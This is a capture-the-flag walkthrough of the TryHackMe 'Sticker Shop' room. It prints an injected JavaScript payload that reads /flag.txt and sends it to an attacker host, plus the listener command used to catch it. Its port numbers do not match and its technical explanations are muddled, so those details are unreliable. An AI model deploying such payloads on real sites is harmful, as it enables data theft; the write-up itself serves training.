 # The Sticker Shop Writeup By Priyank Rastogi

## Introduction

This write-up describes the process of exploiting an HTML Injection vulnerability on a TryHackMe machine (The Sticker Shop) to retrieve sensitive data from the /flag.txt file. The challenge demonstrated the importance of securing web applications against injection vulnerabilities.

## Steps to Exploit

### Connecting to the Target Machine

- Launched the machine and noted the IP address assigned

- Navigated to the target application at http://<machine-ip>:8080/.

### Exploring the Application

- The homepage contained navigation buttons, including a link to a Feedback Page.
- Reviewed the source code of both the homepage and feedback page but found no significant clues or sensitive information.

### Identifying the Vulnerability

- While testing the feedback page, I noticed that it was vulnerable to HTML Injection.
- Injected custom HTML and JavaScript payloads to confirm that the application executed them, thereby verifying the vulnerability.

### Crafting the Exploit

Since direct access to /flag.txt was restricted due to insufficient privileges, I crafted a JavaScript payload to fetch the file's contents using the GET method and exfiltrate it to a server under my control.

```html
<script>
  fetch('/flag.txt', { method: 'GET' })
    .then(response => response.text())
    .then(data => {
      const img = new Image();
      img.src = `http://<my-machine-ip>:8081/?flag=${encodeURIComponent(data)}`;
      document.body.appendChild(img);
    })
    .catch(error => console.error('Error:', error));
</script>
```

### Setting Up the Listener

- Started a web server on my local machine to capture the exfiltrated flag data:

```bash
python3 -m http.server 80
```

- Injected the crafted payload into the feedback page's vulnerable input field.

### Retrieving the Flag

- The payload executed on the server, making a GET request to /flag.txt.
- The response containing the flag was sent to my machine and logged in the terminal running the HTTP server.

## Key Observations

- The application did not properly sanitize user input on the feedback page, allowing the injection of malicious scripts.
- While /flag.txt was not directly accessible, the HTML injection vulnerability allowed bypassing privilege restrictions via server-side fetch operations.

## Flag

- Use CyberChef to decode the FLAG 
- Use URL Decode.

---

Thank You! 
---

## Connect With Me

- [![GitHub](https://img.shields.io/badge/GitHub-000?logo=github&logoColor=white)](https://github.com/technical404)
- [![LinkedIn](https://img.shields.io/badge/LinkedIn-0A66C2?logo=linkedin&logoColor=white)](https://www.linkedin.com/in/thepriyankrastogi/)
- [![Blog](https://img.shields.io/badge/Blog-FF5722?logo=rss&logoColor=white)](https://hackerpriyank.blogspot.com/)

